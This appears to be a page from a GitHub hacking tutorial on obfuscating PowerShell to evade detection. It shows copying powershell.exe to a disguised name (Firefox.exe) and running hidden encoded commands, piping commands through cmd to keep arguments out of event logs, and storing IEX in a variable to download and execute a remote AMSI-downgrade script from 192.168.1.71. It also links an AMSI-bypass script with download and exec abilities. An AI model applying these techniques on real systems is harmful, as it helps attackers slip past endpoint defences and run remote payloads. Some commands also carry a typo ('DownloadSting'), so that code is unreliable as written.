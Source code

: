 <br />

     1º - Obfuscate the name of the powershell binary in target system before execute any
          powershell commands. This can be achieved by making a copy of powershell.exe and
          rename it to Firefox.exe using an agent.bat before further ahead call the obfuscated
          powershell binary (Firefox.exe) to execute our powershell command line arguments.

      Copy-Item "$env:windir\System32\Windowspowershell\v1.0\powershell.exe" -Destination "$env:tmp\Firefox.exe"
      cd $env:tmp; .\Firefox.exe -noP -wIn hIdDEn -enc ..SNIPET..

![powershell rename](http://i63.tinypic.com/k0rhnt.jpg)

[Binary ofuscation technic applied to Bypass-AMSI.ps1 with Bypass/download/exec abilities](https://pastebin.com/A2C0TSNs)<br />

<br />

     2º - Unlink the command-line arguments from the code they deliver, one example of that its
          the ability of powershell to consume commands from the standart input stream ( pipe | )
          When viewed in the event log, the arguments to powershell.exe are no longer visible.

      cmd.exe /c "echo Get-ExecutionPolicy -List" | powershell.exe
      cmd.exe /c "set var=Get-ExecutionPolicy -List&& cmd.exe /c echo %var%^" | powershell.exe

![powershell rename](http://i67.tinypic.com/in8keu.jpg)

<br />

      3º - obfuscating powershell statements (IEX | Invoke-Expression | etc)
           obfuscating this kind of 'calls' are not has easy like most powershell variables
           declarations are, If we try to set any variable pointing to one powershell statement
           then the interpreter will fail to descompress the variable into an command. The next
           two screenshots shows how it fails if we try to use the conventional way, and how to
           bypass it using the Invoke-Command statement that has the ability to transform inputs
           into 'strings' that can deal with that limitation, allowing us to call the statement
           IEX previous stored inside a local powershell variable .. 
           
      [The conventional way]
      $obf="iex"
      $obf (New-Object Net.WebClient).DownloadSting('http://192.168.1.71/amsi-downgrade.ps1')
      powershell $obf (New-Object Net.WebClient).DownloadSting('http://192.168.1.71/amsi-downgrade.ps1')
      Invoke-Command $obf (New-Object Net.WebClient).DownloadSting('http://192.168.1.71/amsi-downgrade.ps1')

![var declaration fail](http://i66.tinypic.com/6jn238.jpg)

      [Using Invoke-Command statement wrapped in double quotes]
      powershell -C "$obf (New-Object Net.WebClient).DownloadSting('http://192.168.1.71/amsi-downgrade.ps1')"

![var declaration success](http://i65.tinypic.com/2hx85g3.jpg)

---

[0] [Glosario (Index)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/simple_obfuscation.md#glosario-index)<br />
[3] [All Hail to ''@danielbohannon'' for its extraordinary work (obfuscation) under powershell](https://www.sans.org/summit-archives/file/summit-archive-1492186586.pdf)<br />

---